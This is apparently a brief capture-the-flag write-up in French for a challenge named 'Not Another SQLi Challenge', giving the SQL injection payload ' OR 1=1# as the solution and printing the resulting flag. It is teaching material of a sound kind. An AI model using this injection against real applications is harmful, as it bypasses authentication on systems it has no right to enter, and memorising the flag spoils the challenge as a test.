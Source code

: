 # Not Another SQLi Challenge

C'est juste un injection sql simple :

```
' OR 1=1#
```

Ce qui donne le flag :

gem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}
